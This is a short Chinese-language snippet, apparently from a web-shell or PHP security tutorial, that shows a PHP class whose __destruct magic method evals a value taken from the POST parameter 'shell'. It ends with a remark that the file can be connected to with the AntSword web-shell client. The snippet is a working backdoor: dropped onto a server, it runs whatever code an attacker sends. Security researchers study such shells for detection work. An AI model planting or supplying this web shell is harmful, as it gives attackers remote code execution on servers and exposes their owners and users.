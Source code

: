 ![](img/3.png)

---

**__destruct 析构函数(魔术方法)**
```php

<?php 
class User
{
  public $name = '';
 
  function __destruct(){
    eval("$this->name");
  }
}
 
$user = new User;
$user->name = ''.$_POST['shell'];
?>
```
> 可使用蚁剑连接
